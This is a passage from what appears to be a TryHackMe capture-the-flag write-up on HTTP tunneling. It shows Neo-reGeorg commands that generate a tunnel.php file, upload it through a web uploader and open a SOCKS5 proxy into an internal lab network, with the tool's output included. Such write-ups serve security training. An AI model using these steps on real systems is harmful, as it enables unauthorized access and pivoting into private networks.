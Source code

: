 ![HTTP Tunneling diagram](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/b32d6d9d9c3377acf155044204ec6982.png)

Now replicate the HTTP Tunneling steps to establish tunneling over the HTTP protocol to communicate with flag.thm.com with 172.20.0.120 as an IP address on port 80. Note that if you access the flag.thm.com website from other machines within the network, you won't get the flag.

#### Getting the flag

We need to use `Neo-reGeorg`:

```
python3 neoreg.py generate -k thm
```

Once we generated the files, we need to go to:

```
http://IP/uploader
```

On here, we need to upload our `tunnel.php` file the tool generated:

![](gitbook/cybersecurity/images/Pasted%20image%2020250516180630.png)

Once we upload it, we will get that message, now, we can use the tool again:

```
python3 neoreg.py -k thm -u http://10.10.39.16/uploader/files/tunnel.php


          "$$$$$$''  'M$  '$$$@m
        :$$$$$$$$$$$$$$''$$$$'
       '$'    'JZI'$$&  $$$$'
                 '$$$  '$$$$
                 $$$$  J$$$$'
                m$$$$  $$$$,
                $$$$@  '$$$$_          Neo-reGeorg
             '1t$$$$' '$$$$<
          '$$$$$$$$$$'  $$$$          version 5.2.1
               '@$$$$'  $$$$'
                '$$$$  '$$$@
             'z$$$$$$  @$$$
                r$$$   $$|
                '$$v c$$
               '$$v $$v$$$$$$$$$#
               $$x$$$$$$$$$twelve$$$@$'
             @$$$@L '    '<@$$$$$$$$`
           $$                 '$$$


    [ Github ] https://github.com/L-codes/Neo-reGeorg

+------------------------------------------------------------------------+
  Log Level set to [ERROR]
  Starting SOCKS5 server [127.0.0.1:1080]
  Tunnel at:
    http://10.10.39.16/uploader/files/tunnel.php
```
